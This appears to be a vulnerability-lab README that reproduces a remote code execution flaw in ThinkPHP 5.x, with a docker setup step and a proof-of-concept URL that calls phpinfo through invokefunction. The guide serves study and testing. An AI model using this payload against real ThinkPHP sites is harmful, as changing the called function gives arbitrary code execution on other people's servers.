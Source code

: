 # Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5, as the framework processes controller name incorrectly, it can execute any method if the website doesn't have mandatory routing enabled (which is default), resulting in a RCE vulnerability.

Reference links：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## Environment Setup

Enter the following command：(ThinkPHP version:5.0.20)

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Directly visit `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1` and it'll execute the phpinfo：

![](1.png)
